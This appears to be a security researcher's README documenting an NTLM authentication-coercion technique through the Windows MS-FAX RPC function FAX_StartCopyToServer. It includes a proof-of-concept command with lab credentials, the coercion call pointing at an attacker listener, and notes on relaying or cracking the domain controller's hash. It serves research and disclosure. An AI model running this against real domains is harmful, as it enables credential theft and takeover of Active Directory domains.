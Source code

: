 # MS-FAX - Remote call to FAX_StartCopyToServer (opnum 68)

## Summary

+ **Protocol**: [[MS-FAX]: Fax Server and Client Remote Protocol](https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-fax/dabce486-05b1-4ea4-95fe-f2c3d5315ff4)

+ **Protocol UUID**: 6099fc12-3eff-11d0-abd0-00c04fd91a4e

+ **Protocol version**: 0.0

+ **SMB Named pipe**: `\PIPE\SHAREDFAX`

+ **Function name**: [`FAX_StartCopyToServer`](https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-fax/d4fdc04e-6594-4563-9700-d4cc645b4335)

+ **Function operation number**: `68`

+ **Authenticated**: Yes


## Description

In order to call a remote procedure to trigger an authentication from the remote machine to an arbitrary target, we first need to authenticate to the remote machine, usually on SMB. Then we need to connect to the remote SMB pipe `\PIPE\SHAREDFAX` and bind to the desired [`MS-FAX`](https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-fax/dabce486-05b1-4ea4-95fe-f2c3d5315ff4) protocol (with uuid `6099fc12-3eff-11d0-abd0-00c04fd91a4e` and version `0.0`) in order to perform remote procedure calls to functions in the [`MS-FAX`](https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-fax/dabce486-05b1-4ea4-95fe-f2c3d5315ff4) protocol.

The IP 192.168.2.51 being my attacking machine where I listen with Responder, and 192.168.2.1 being the IP of my Windows Server. When starting this script, it will authenticate and connect to the remote pipe named `\PIPE\SHAREDFAX` This pipe is connected to the protocol [[MS-FAX]: Fax Server and Client Remote Protocol](https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-fax/dabce486-05b1-4ea4-95fe-f2c3d5315ff4) and allows to call RPC functions of this protocol. We will then call the remote [`FAX_StartCopyToServer`](https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-fax/d4fdc04e-6594-4563-9700-d4cc645b4335) function on the remote Windows Server (192.168.2.1) with the following parameters:

```cpp
FAX_StartCopyToServer('192.168.2.51\x00')
```

We can try this with this proof of concept code ([coerce_poc.py](./coerce_poc.py)):

```bash
./coerce_poc.py -d "LAB.local" -u "user1" -p "Podalirius123!" 192.168.2.51 192.168.2.1
```

![](./imgs/poc.png)

This will force the Windows Server (192.168.2.1) to authenticate to the SMB share `\\192.168.2.51\share` and therefore authenticate using its machine account (`DC01$`).  After this RPC call, we get an authentication from the domain controller with its machine account directly on Responder:

![](./imgs/hash.png)

After this step, we relay the authentication to other services in order to elevate our privileges, or try to downgrade it to NTLMv1 and crack it in order to get the NT hash of the domain controller's machine account. This kind of vulnerabilities allows to quickly get from user to domain administrator in unprotected domains!


## Function technical detail

```cpp
error_status_t FAX_StartCopyToServer(
   [in] handle_t hFaxHandle,
   [in, string, ref] LPCWSTR lpcwstrFileExt,
   [in, out, string, ref] LPWSTR lpwstrServerFileName,
   [out, ref] PRPC_FAX_COPY_HANDLE lpHandle
 );
```

## References

+ Documentation of protocol [MS-FAX]: Fax Server and Client Remote Protocol: https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-fax/dabce486-05b1-4ea4-95fe-f2c3d5315ff4

+ Documentation of function `FAX_StartCopyToServer`: https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-fax/d4fdc04e-6594-4563-9700-d4cc645b4335